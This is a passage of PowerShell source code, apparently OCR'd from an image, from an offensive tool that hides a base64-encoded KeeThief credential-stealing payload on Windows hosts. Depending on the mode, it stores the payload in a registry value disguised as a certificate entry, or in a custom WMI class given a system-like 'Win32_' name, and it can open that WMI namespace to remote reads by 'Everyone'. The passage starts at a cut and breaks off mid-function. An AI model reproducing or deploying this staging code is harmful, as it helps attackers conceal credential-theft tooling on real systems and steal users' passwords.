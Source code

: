         [Parameter(ParameterSetName = 'Registry')]
        [String]
        $OutputValueName = 'ComputerCertificate',
        
        [Parameter(Mandatory = $True,ParameterSetName = 'Registry')]
        [Switch]
        $Registry,
        
        [Parameter(ParameterSetName = 'Registry')]
        [String]
        $RegistryPath = "HKLM:\SOFTWARE\Microsoft\SystemCertificates\",

        [Parameter(ParameterSetName = 'Registry')]
        [String]
        $PayloadValueName = 'DomainCertificate',

        [Parameter(Mandatory = $True, ParameterSetName = 'WMI')]
        [Switch]
        $WMI
        
    )

    # Base64 encoded KeeThief functions
    $Payload = "<INSERT VALUE>"

    switch($PsCmdlet.ParameterSetName){
        'WMI'{
            
            # Create custome WMI namespace
            $NSArray = $NamespaceName.Split('\')
            $Namespace = [wmiclass]"$($NSArray[0..($NSArray.Length - 2)] -join '\'):__namespace"
            $CustomNamespace = $Namespace.CreateInstance()
            $CustomNamespace.Name = $NSArray[-1]
            [void]$CustomNamespace.Put()

            Write-Verbose "Namespace $NamespaceName Created"

            # Expose namespace to 'Everyone' remotely
            if($ExposeNamespace){
                Grant-WmiNameSpaceRead -NameSpace $NamespaceName
            }

            # Create custom WMI class
            $CustomClass = New-Object Management.ManagementClass("$NamespaceName", $null, $null)
            $CustomClass.Name = "Win32_$ClassName"
            $CustomClass.Properties.Add('Content', $Payload)
            $CustomClass.Put() | Out-Null

            Write-Verbose "Custom WMI Class Win32_$ClassName Created"
